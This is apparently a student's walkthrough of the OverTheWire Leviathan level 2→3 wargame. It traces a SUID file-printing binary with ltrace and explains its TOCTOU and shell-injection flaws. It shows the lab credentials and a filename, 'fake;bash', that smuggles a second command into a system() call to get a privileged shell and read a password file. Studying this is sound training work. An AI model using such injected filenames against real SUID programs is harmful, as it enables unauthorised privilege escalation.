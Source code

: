 # Leviathan Level 2 -> 3

## 🧠 Goal  

Log into Leviathan 2 and find the password for Leviathan 3.  

---

## 🔐 Credentials  

- **Username:** `leviathan2`  
- **Host:** `leviathan.labs.overthewire.org`  
- **Port:** `2223` (SSH)  
- **Password:** `NsN1HwFoyN`  

---

## 🖥️ Commands Used  

```bash
# connect to leviathan2
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
#try to uses SUID premission to access the pass file 
leviathan2@leviathan:~$ ls -l
total 16
-r-sr-x--- 1 leviathan3 leviathan2 15072 Aug 15 13:17 printfile
leviathan2@leviathan:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x80490ed, 2, 0xffffd444, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                       = -1
puts("You cant have that file..."You cant have that file...
)                                = 27
+++ exited (status 1) +++

leviathan2@leviathan:~$ mktemp -d /tmp/amro.XXX
/tmp/amro.BWn
leviathan2@leviathan:~$ touch /tmp/amro.BWn/test
leviathan2@leviathan:~$ ltrace ./printfile /tmp/amro.BWn/test
__libc_start_main(0x80490ed, 2, 0xffffd454, 0 <unfinished ...>
access("/tmp/amro.BWn/test", 4)                                   = 0
snprintf("/bin/cat /tmp/amro.BWn/test", 511, "/bin/cat %s", "/tmp/amro.BWn/test") = 27
geteuid()                                                         = 12002
geteuid()                                                         = 12002
setreuid(12002, 12002)                                            = 0
system("/bin/cat /tmp/amro.BWn/test" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                            = 0
+++ exited (status 0) +++
```
access("/tmp/amro.BWn/test", 4) = 0 <br>
snprintf("/bin/cat /tmp/amro.BWn/test", 511, "/bin/cat %s", "/tmp/amro.BWn/test") = 27 <br>
geteuid() = 12002 <br> 
geteuid() = 12002 <br>
setreuid(12002, 12002) = 0 <br>
system("/bin/cat /tmp/amro.BWn/test" <no return ...> <br>

listen to me and answer: <br>
access() checks RUID if returns 0 mean that this ruid (leviathan2) have access to read, snprintf is a Program builds the command string and store it into buffer waiting for system to use it later , setreuid(12002,12002) makes both IDs = leviathan3, so the process runs entirely as leviathan3, then system performs the command cat to print the content of the file but the tricks come here the attacker could insert ; in the name of that file lets say "fake;bash" that has gained access before and since ; is command seprator then cat/tmp/amro.BWN/fake will execute or get error it doesn`t matter,then bash command will execute and since i am leviathan 3 now it will open the bash of leviathan3 then i can traverse to the passowrd file

```bash
leviathan2@leviathan:~$ touch /tmp/amro.BWn/"fake;bash"
leviathan2@leviathan:~$ ./printfile /tmp/amro.BWn/"fake;bash"
/bin/cat: /tmp/amro.BWn/fake: Permission denied
leviathan3@leviathan:~$ whoami
leviathan3
leviathan3@leviathan:~$ cat /etc/leviathan_pass/leviathan3
f0n8h2iWLP

```
___

## 💡 Theory
```bash
TOCTOU (Time Of Check to Time Of Use) vulnerability
access() is a unction in C lybrary
in a normal program , access() is fine
in a SUID program , its dangerous
-> access() checks with the real UID 
-> but the program later opens the file with the effective UID (the up privileged one)
   in our case : RUID : leviathan2
	       : EUID : leviathan3
```

```bash
; in Linux shells
The semicolon (;) is a command separator in shells like bash and sh.
It means: “Run the first command, then run the second command, regardless of whether the first succeeds or fails.”
echo "Hello"; echo "World" 
hello
world
another example :
/bin/cat/fake;bash
"hi i am the fake text"
then -> bash will execute

Key difference from && and ||
; → run both, always.
&& → run second only if first succeeds (exit code = 0).
|| → run second only if first fails (exit code ≠ 0).
```

```bash
#snprintf builds the command string and store it into a buffer for later use by system
snprintf(0x7ffd1234, 511, "/bin/cat %s", "/tmp/amro.BWn/test") = 27
#for some reason the first argument showd the content of the buffer rather than showing the pointer 
snprintf("/bin/cat /tmp/amro.BWn/test", 511, "/bin/cat %s", "/tmp/amro.BWn/test") = 27

First arg ("/bin/cat /tmp/amro.BWn/test") →
⚠️ This is confusing because strace is showing you the contents of the buffer after the call, not the real pointer.
Second arg (511) →
The size of the buffer (max number of characters to write, including the null terminator).
Third arg ("/bin/cat %s") →
The format string. %s is a placeholder that says “insert a string here”
Fourth arg ("/tmp/amro.BWn/test") →
This is the string that will replace %s.
= 27 it means snprintf would (and did) write 27 characters "/bin/cat/tmp/amro.BWn/test " = 27  characters
```
___

## 📤 Output
```bash
f0n8h2iWLP
```
